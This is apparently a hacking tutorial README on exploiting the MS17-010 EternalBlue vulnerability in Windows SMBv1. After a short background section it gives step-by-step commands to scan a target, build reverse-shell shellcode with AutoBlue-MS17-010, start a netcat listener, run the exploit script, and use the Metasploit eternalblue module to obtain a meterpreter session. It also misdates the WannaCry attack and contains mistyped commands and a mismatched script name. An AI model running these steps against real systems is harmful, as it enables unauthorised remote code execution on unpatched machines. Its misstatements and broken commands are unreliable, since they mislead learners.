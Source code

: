 # MS17-010 EternalBlue Exploit

- **EternalBlue (MS17-010/CVE-2017-0144)** is the name given to a collection of Windows vulnerabilities and exploits that allow attackers to remotely execute arbitrary code and gain access to a Windows system and consequently the network that the target system is a part of.

- The EternalBlue exploit was developed by the **NSA (National Security Agency)** to take advantage of the MS17-010 vulnerability and was leaked to the public by a hacker group called the **Shadow Brokers** in 2017.

- The EternalBlue exploit takes advantage of a vulnerability in the Windows **SMBv1 protocol** that allows attackers to send specially crafted packets that consequently facilitate the execution of arbitrary commands.

- The **EternalBlue** exploit was used in the **WannaCry** ransomware attack on **June 27, 2017** to exploit other Windows systems across networks with the objective of spreading the ransomware to as many systems as possible.

- This vulnerability affects multiple versions of Windows:
  - Windows Vista
  - Windows 7
  - Windows Server 2008
  - Windows 8.1
  - Windows Server 2012
  - Windows 10
  - Windows Server 2016
    
- Microsoft released a patch for the vulnerability in **March 2017**, however, many users and companies have still not yet patched their systems.

- The **EternalBlue exploit** has a **MSF auxiliary module** that can be used to check if a target system is vulnerable to the exploit and also has an exploit module that can be used to exploit the vulnerability on unpatched systems.

- The **EternalBlue exploit module** can be used to exploit vulnerable Windows systems and consequently provide a **privileged meterpreter session** on the target system.

- In addition to MSF modules, we can also manually exploit the vulnerability by utilizing **publicly available exploit code**.
----
# Tools & Environment

- **AutoBlue-MS17-010**: [https://github.com/3ndG4me/AutoBlue-MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010)
- **Target system**: Windows 
- **Penetration Testing distribution**: Kali Linux or Any linux
----

<h2>Pratically</h2>
Scan With Nmap
<code>sudo nmap -sV -p 445 -O {ip}</code>
or 
<code>sudo nmap -sV -p 445 --script=smb-vuln-ms17-010 {ip}</code></br>
Now, Clone tool AutoBlue-MS17-010</br>
and Install it properly including requirements.txt</br>
then </br>
<code>cd shellcode</code></br>
<code>chmodv +x shell_prep.py</code></br>
<code>./shell_prep.py</code></br>
It will ask (y/n): y</br>
LHOST: your IP</br>
LPORT: 1234 or any for both x64 x86</br>
then 1 and 1 for both options </br>
<h3>Setup nc listner</h3></br>
<code>nc -nvlp 1234</code></br>
Note: you can use exploit according to version of windows you are targetting Now i will target window7</br>
<span>If it has not executable permission then provide them </span></br>
<code>chmod +x eternalblue_exploit7.py</code></br>
<code>python eternalblue_exploit.py {ip} shellcode/sc_x64.bin</code></br>we can you X64 orX86 according to operationg system</br>

<h3>Exploiting this with metasploit</h3></br>
 <code>msfconlole</code></br>
 <code>search eternalblue</code></br>
 <code>use  exploit/windows/smb/ms17_010_eternalblue</code></br>
 <code>show options</code></br>
 <code>set RHOST {ip}</code></br>
 <code>exploit</code></br>
 now we will get meterpreter session

